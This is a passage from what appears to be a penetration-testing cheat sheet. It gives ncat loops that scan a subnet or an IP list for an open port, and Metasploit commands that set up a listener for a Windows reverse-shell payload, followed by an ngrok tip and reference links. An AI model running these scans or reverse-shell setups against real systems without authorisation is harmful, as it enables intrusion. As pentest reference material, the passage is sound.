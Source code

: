 Find out how to create an SSL/TLS certificate in my project at [ivan-sincek/secure-website](https://github.com/ivan-sincek/secure-website/tree/master/crt).

Check if connection to a specified TCP port (e.g., port 22 or 23) is possible:

```bash
for i in {0..255}; do ncat -nv "192.168.8.${i}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done

for ip in $(cat ips.txt); do ncat -nv "${ip}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done
```

### multi/handler

Set up a listener (change the PAYLOAD, LHOST, and LPORT as necessary):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address, but do not expose the web server for too long if it is not properly hardened due to security concerns.

I advise you not to transfer any sensitive data over it if you do not trust it.

### Additional References

Credits to the authors!

* [book.hacktricks.xyz](https://book.hacktricks.xyz/welcome/readme)
* [infosecmatter.com/bug-bounty-tips](https://www.infosecmatter.com/bug-bounty-tips)
* [pentestbook.six2dez.com](https://pentestbook.six2dez.com)
